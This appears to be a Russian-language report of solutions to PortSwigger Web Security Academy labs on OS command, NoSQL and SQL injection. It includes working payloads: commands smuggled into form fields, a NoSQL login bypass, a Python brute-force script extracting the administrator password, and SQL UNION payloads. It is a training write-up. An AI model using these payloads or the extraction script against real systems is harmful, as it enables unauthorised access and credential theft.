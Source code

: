 # Отчет по решению OS injection

## 1. Lab: OS command injection, simple case

Пошарился по лабе со включенным burp proxy, нашел post /product/stock, заинджектил в пост запрос `productId=2&storeId=1;whoami`

## 2. Lab: Blind OS command injection with time delays

В форме feedback можно поинжектить в поле email

` csrf=CvglT8HVqqhEjwmMgG9Z00uYphRnukWL&name=alaska&email=qwe%40ru.ru;sleep%2010;&subject=alaska&message=alaska`

## 3. Lab: Blind OS command injection with output redirection

Инжект находится в том же месте, где раньше, вывод можно посмотреть по пути /image?filename=who.txt

# Отчет по решению NoSQL

## 1. Lab: Detecting NoSQL injection

Инжект производится такой строкой
```
https://0a8b009a035541b580d0a832008f0051.web-security-academy.net/filter?category=Gifts%27||1||%27
```


## 2. Lab: Exploiting NoSQL operator injection to bypass authentication
```
{"username":{
"$regex": "admin.*"},"password":{
"$ne":""}
}
```


## 3. Lab: Exploiting NoSQL injection to extract data

Нашел ручку /user/lookup, написал переборный скрипт

```
import subprocess

for i in range(30):

    result = subprocess.check_output(f"curl \"https://0a29004103d5c93c81b761b500610098.web-security-academy.net/user/lookup?user=administrator'+%26%26+this.password.length=='{i}\" -b \"session=gGfRWGzVNbFPkaRpdmbdDb6mU7GE1vyy\"",
                                         shell=True, stderr=subprocess.DEVNULL).decode()
    resfind = result.find("Could not find user")
    if resfind == -1:
        pass_len=i


print(pass_len)
alphabet="abcdefghijklmnopqrstuvwxyz"
pass_us = ""
for i in range(pass_len):
    for j in alphabet:
        result = subprocess.check_output(f"curl \"https://0a29004103d5c93c81b761b500610098.web-security-academy.net/user/lookup?user=administrator'+%26%26+this.password%5b{i}%5d+%3d%3d+'{j}\" -b \"session=gGfRWGzVNbFPkaRpdmbdDb6mU7GE1vyy\"",
                                         shell=True, stderr=subprocess.DEVNULL).decode()

        resfind = result.find("Could not find user")
        if resfind == -1:
            pass_us+=j
            print(pass_us)
            continue

```

# Отчет по решению SQL injection

## 1. Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Нашел, что в url параметрах в запросе при поиске пятисотит при вставке '1=1--

```
https://0aac002e042225ac814c524600eb0023.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%271=1--
```

Добавил туда OR и решил

## 2. Lab: SQL injection vulnerability allowing login bypass

В пароль вставил peter'+OR+1=1--

## 3. 

Поигрался со строкой url и информацией из шпоры 

```
/filter?category=Clothing%2c+shoes+and+accessories'+UNION+SELECT+banner,+null+FROM+v$version--
```
